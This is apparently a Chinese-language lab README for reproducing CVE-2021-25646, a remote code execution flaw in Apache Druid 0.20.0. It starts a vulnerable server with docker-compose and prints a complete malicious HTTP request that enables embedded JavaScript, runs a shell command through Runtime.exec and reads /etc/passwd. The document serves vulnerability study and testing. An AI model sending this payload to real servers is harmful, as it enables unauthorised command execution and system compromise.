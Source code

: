 # Apache Druid 代码执行漏洞（CVE-2021-25646）

Apache Druid是一个开源的分布式数据存储。

Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。

参考链接：

- <https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution>
- <https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw>

## 漏洞环境

执行如下命令启动一个Apache Druid 0.20.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

直接发送如下请求即可执行其中的JavaScript代码：

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

可见，`id`命令已被成功执行：

![](1.png)

